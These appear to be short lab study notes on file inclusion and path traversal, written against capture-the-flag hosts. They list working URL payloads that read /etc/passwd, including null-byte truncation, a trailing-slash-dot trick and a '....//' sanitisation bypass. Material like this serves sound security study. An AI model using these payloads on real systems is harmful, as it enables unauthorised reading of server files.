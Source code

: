 File Inclusion

## Path Traversal

- http://webapp.thm/index.php?lang=../../../../etc/passwd


use %00 to remove .php extension from error mesage: 
- http://webapp.thm/index.php?lang=/etc/passwd%00

use /. to get current directory:
http://10.10.17.204/lab4.php?file=../../../etc/passwd/.

bypass string sanitations:

http://10.10.17.204/lab5.php?file=....//....//....//....//etc/passwd